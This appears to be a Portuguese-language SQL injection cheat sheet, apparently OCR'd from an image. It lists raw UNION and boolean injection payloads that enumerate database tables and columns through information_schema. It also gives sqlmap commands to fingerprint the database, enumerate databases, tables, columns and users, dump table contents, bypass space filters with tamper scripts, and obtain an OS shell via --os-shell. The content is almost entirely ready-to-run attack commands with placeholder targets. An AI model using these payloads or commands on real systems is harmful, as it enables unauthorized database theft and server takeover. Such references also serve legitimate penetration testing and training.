 ```
elsagent' RLIKE (SELECT (CASE WHEN (7125=7125) THEN 0x656c736167656e74 ELSE 0x28 END)) AND 'yxqE'='yxqE

### Identifica as tabelas da base de dados  

'union(SELECT(group_concat(table_name))FROM(information_schema.columns)where(table_schema=database()));#

'union SELECT group_concat(table_name) FROM information_schema.schema.tables where table_schema=schema() -- -' 
 
### Identifica as colunas da base de dados

'union(SELECT(group_concat(column_name))FROM(information_schema.columns)where(table_name='[Nome-Base-de-Dados]'));#
```
### SQLMap comandos 
```
sqlmap -u '[URL]' -p user-agent --random-agent --banner

sqlmap -u [URL]?user=1 -p user

sqlmap -r request -p item  --os-shell  --web-root "/var/www/html/tmp"

## BYPass UNION e payload padrão como 1='1

### Verifica se o paramatro -p é vulnerável, serve para parametros do header HTTP e também da requisição POST 
### Parametro --banner identifica a versão da base de dados 
sqlmap -u 'http://[URL]/' -p user-agent --user-agent=elsagent --banner --level 2 --risk 2

### Identifica as bases de dados da aplicação
sqlmap -u 'http://[URL]/' -p user-agent --dbs --random-agent --level 2 --risk 2 --threads 10

### Identifica as tabelas da base de dados definida no parametro -D 
sqlmap -u 'http://[URL]/' -p user-agent --tables -D [DB-Nome] --random-agent --level 2 --risk 2 --threads 10

### Identifica as colunas da base de dados definida no parametro -D e da tabela definida no parametro -T
sqlmap -u 'http://[URL]/' -p user-agent --columns -D [DB-Nome] -T [Nome-Tabela] --random-agent --level 2 --risk 2 --threads 10  

### Faz o dump das colunas 
sqlmap -u 'http://[URL]/' -p user-agent --columns -D [DB-Nome] -T [Nome-Tabela] --random-agent --level 2 --risk 2 --threads 10 --dump 

### Faz o dump de uma coluna específica
sqlmap -u 'http://[URL]/' -p user-agent --columns -D [DB-Nome] -T [Nome-Tabela] -C [Nome-Coluna] --random-agent --level 2 --risk 2 --threads 10 --dump 

### BYPass filtro de espaço em branco 
sqlmap -u 'http://[URL]/' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' --union-char=els --banner

### Gerar o payload usado pelo SQLMap para descobrir a vulnerabilidade

sqlmap -u 'http://[URL]/' -p user-agent --random-agent --technique=U -v3 --fresh-queries

### Enumerar os usuários 

sqlmap -u 'http://[URL]/' -p user-agent --random-agent --users
```